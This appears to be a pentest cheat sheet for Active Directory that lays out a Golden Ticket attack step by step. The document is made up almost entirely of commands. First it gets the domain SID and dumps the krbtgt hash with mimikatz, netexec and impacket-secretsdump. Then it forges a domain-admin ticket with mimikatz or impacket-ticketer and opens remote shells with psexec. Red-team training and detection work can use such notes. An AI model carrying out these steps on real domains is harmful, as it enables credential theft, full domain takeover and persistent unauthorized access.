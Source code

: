 ```yaml
---
tags:
  - Authenticated
  - Kerberos
  - Persistence
  - AD
---
```

forge a Kerberos Ticket Granting Ticket (TGT) with a domain's KRBTGT account hash, allowing an attacker to impersonate any user including domain admins without needing their credentials.

#### **Get domain SID**
locally:
```powershell
(Get-ADDomain).DomainSID
```
```batch
whoami /user # (domain SID is the part before the last hyphen (RID).)
```
remotely:
```
nxc ldap <target> -u <user> -p <pass> --sid
```
#### **Get krbtgt account hash**
locally - mimikatz
```bash
lsadump::lsa /inject /name:krbtgt
```
remotely - nxc
```bash
nxc smb >ip> --local-auth -u '' -p '' --lsa --user krbtgt
nxc smb <dcip> --local-auth -u '' -p '' --ntds --user krbtgt
```
remotely - secretsdump
```bash
impacket-secretsdump user:pass@10.0.0.35
```
#### **Generate ticket**
**with mimikatz**
```
kerberos::golden /User:Administrator /domain:domain.local /sid:<SID> /krbtgt:<krbtgt hash> /id:500 /ptt
```
spawn shell with ticket
```powershell
misc::cmd
```
Now we can use psexec for a shell anywhere
```powershell
psexec.exe  -accepteula \\hostname cmd.exe
```
**With impacket**
```bash
impacket-ticketer -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
# OR with aes
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```
set ticket env var
```
export KRB5CCNAME=<TGS_ccache_file>
```
Then you can access anything
```bash
impacket-psexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
